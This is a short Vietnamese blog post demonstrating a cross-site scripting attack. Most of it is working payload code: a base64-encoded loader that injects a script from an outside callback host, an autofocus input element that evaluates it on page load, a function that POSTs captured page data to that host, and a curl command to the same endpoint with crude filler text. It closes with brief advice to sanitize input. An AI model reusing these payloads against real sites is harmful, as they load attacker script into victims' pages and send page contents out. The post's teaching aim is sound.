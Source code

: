 ```yaml
---
title: (Vi) XSS attack sample
description: XSS attack sample
author: lk
tags: security
keywords: security
cover_image: https://ahaxu.com/images/2022-08-28-hello-world-kyxuan.jpg
---
```


Disclaimer: Kỹ thuật này có thể đã lạc hậu tại thời điểm bài  này đuợc viết ;). Enjoy your day lah ^^.

**XSS attack là kỹ thuật tấn công khá phổ biến bên cạnh SQL injection. Hãy cùng xem thử một ví dụ mà attacker inject thành công một đọan mã độc vào hệ thống nhé!**


Đầu tiên, hãy chạy đoạn thử js này trong js console

```js
> atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vZDB4NS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7')

> 'var a=document.createElement("script");a.src="https://d0x5.xss.ht";document.body.appendChild(a);'
```
một vài browser hiện đại thì đã chặn việc chạy các đoạn mã độc như trên


```
> # thử eval đoạn mã độc phía trên 
> eval(atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vZDB4NS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7'))

> VM91:1 This document requires 'TrustedScript' assignment and no 'default' policy for 'TrustedScript' has been defined.
(anonymous) @ VM91:1
VM91:1 Uncaught EvalError: Refused to evaluate a string as JavaScript because 'unsafe-eval' is not an allowed source of script in the following Content Security Policy directive: "script-src chrome://resources 'self'".
```


Nếu bạn tò mò, tận mắt thấy, hãy nhúng đoạn code dưới này vào file html bất kỳ nào đó, mở ở chế độ **private mode**
```
<input
    onfocus=eval(atob(this.id))
    id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vZDB4NS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7
 autofocus>
```
link đến thư viện mà attacker xài, https://d0x5.xss.ht/ . Biết đâu bạn có thể modify một vài thông tin gửi về attacker = việc modify data 
gửi về cho attacker trong hàm bên dưới
```
    var http = new XMLHttpRequest();
    var url = "https://d0x5.xss.ht/page_callback";
    http.open("POST", url, true);
    http.setRequestHeader("Content-type", "text/plain");
    http.onreadystatechange = function() {
        if(http.readyState == 4 && http.status == 200) {

        }
    }
    http.send( JSON.stringify( page_data ) );
}
```
Hoặc callback luôn bằng curl
```
> curl -v -XPOST 'https://d0x5.xss.ht/page_callback' -d'{"page_html":"fuckyou", "uri":"fuck you again"}'
```

**Hãy luôn sanitize input data có kiểu string ;) và kỹ hơn nữa thì nên sanitize data load từ database khi render html page.**
Hoặc nên dùng các thư viện ORM có hỗ trợ việc sanitize/ cast các malicious input data này.

Nếu bạn còn tò mò, hãy vọc vạch thêm từ đây https://xsshunter.com/
